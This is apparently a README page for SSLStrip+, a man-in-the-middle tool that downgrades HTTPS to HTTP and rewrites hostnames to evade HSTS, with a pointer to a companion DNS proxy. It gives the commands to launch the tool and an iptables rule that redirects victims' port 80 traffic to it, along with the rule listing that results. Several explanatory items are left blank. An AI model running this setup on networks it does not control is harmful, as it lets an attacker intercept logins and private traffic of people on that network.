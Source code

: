 ## SSLStrip+

> This is a new version of [Moxie´s SSLstrip] (http://www.thoughtcrime.org/software/sslstrip/) with the new feature to avoid HTTP Strict Transport Security (HSTS) protection mechanism.
> This version changes HTTPS to HTTP as the original one plus the hostname at html code to avoid HSTS. Check my slides at BlackHat ASIA 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) for more information.
> For this to work you also need a DNS server that reverse the changes made by the proxy, you can find it at https://github.com/LeonardoNve/dns2proxy.


```shell
PUERTO_SSLSTRIP=9000
sudo python sslstrip.py --listen $PUERTO_SSLSTRIP --all --write log.txt
```
donde

1. `--listen` o `-l` es el puerto en el que sslstrip2 recibirá el tráfico.

2. `--all` o `-a` indica en nivel de loogin en depuración.

3. `--write` o `-w` indica el archivo de salida del log.


### Redirección de puerto 80

El comando `iptables` es utilizado para administrar las reglas del firewall en Linux.

```shell
$ sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PUERTO_SSLSTRIP
$ sudo iptables -t nat -L -n -v
sudo: unable to resolve host local: Name or service not known
Chain PREROUTING (policy ACCEPT 8 packets, 477 bytes)
 pkts bytes target     prot opt in     out     source               destination         
   91  6170 REDIRECT   udp  --  *      *       0.0.0.0/0            0.0.0.0/0            udp dpt:53 redir ports 53
    2   120 REDIRECT   tcp  --  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:80 redir ports 9000
```
Donde

1. `-t nat`: 

2. `-A PREROUTING`: 

3. `-p tcp`: 
4. `--destination-port 80`: 

5. `-j REDIRECT`: 

6. `--to-port 9000`: 


```shell
sudo lsof -i :9000
```

